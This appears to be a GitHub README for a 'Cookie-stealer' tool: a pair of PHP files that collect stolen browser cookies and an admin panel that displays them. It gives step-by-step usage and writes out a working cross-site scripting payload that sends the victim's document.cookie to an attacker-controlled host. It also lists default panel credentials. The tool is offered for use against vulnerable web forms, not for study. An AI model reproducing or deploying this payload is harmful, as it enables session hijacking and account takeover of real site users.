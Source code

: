 ![Cookie](http://image.noelshack.com/fichiers/2021/49/7/1639293842-2uyp7.png)

# Cookie-stealer
Crappy cookie stealer with 'admin' panel made long time ago..

```admin.php``` to view your cookies, ```c.php``` to grab the cookies.
c.php will write the cookies into admin.php, be sure to have write access on your server.

### Usage
1. Drop ```admin.php``` and ```c.php``` in the same directory.
2. Go to your vulnerable formulary and send him a payload to your ```c.php?c=``` something like this:
 * `<script>document.write("<img src='http://xxxxx.fr/c.php?c="+document.cookie+"'></img>");</script>`
3. Navigate to admin.php, login with username: **root** password: **toor**
4. ???
5. Profit.
